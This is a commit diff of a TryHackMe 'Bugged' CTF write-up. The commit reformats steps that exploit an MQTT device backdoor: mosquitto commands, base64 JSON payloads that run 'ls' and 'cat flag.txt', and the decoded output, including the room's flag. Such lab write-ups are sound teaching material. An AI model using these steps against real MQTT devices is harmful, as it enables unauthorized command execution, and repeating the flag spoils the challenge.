

Before and after one commit to abubakar-shahid/TryHackMe-CTFs-Writeups, a Markdown page: Easy/Bugged/Bugged.md, the part around the change printed below. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Easy/Bugged/Bugged.md
+++ b/Easy/Bugged/Bugged.md
@@ -35,7 +43,15 @@ Here we got:
 - Publish Topic: "pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub". The device uses this topic to publish data.
 - Subscribe Topic: "sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub". The device listens to this topic for commands or instructions.
 
-Now we will subscribe to the publish topic to see the device's outgoing messages: `mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"`. Simultaneously, run `mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP"` in different terminal to send the message. From this, we will receive a base64 string in the terminal where we subscribed the publish topic `SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=`.
+Now we will subscribe to the publish topic to see the device's outgoing messages:
+```
+mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"
+```
+Simultaneously, run following command in different terminal to send the message:
+```
+mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP"
+```
+From this, we will receive a base64 string in the terminal where we subscribed the publish topic `SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=`.
 
 Decode this string and it will give:
 ```
@@ -43,13 +59,25 @@ Invalid message format.
 Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
 ```
 
-So, we came to know the exact format for running the command. Encode the following into base64: `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}`, it will give an encoding `eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==`. Actually we are trying to execute `ls` command.
+So, we came to know the exact format for running the command. Encode the following into base64:
+```
+{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
+```
+It will give an encoding `eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==`. Actually we are trying to execute `ls` command.
 
-Again send this as a message to the terminal: `mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ=="`. This time, we will receive a base64 encoding `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9`. Decode this and it will give `{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}`. It means that the file for the flag is present in the same directory.
+Again send this as a message to the terminal:
+```
+mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ=="
+```
+This time, we will receive a base64 encoding `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9`. Decode this and it will give `{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}`. It means that the file for the flag is present in the same directory.
 
-Hence, we will modify the command again get the response on the subscribed terminal. Encode `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}` into base64 and send it in the terminal `mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0="`. In the subscribed terminal, we will receive `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9`.
+Hence, we will modify the command again get the response on the subscribed terminal. Encode `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}` into base64 and send it in the terminal
+```
+mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0="
+```
+In the subscribed terminal, we will receive `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9`.
 
-Decode it and it will reveal the flag `{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{18d44fc0707ac8dc8be45bb83db54013}\n"}`.
-
-## Flag
-`flag{18d44fc0707ac8dc8be45bb83db54013}`
+Decode it and it will reveal the flag
+```
+{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{18d44fc0707ac8dc8be45bb83db54013}\n"}
+```
````
Also changed, not shown: other parts of Easy/Bugged/Bugged.md (+9 -1 lines).
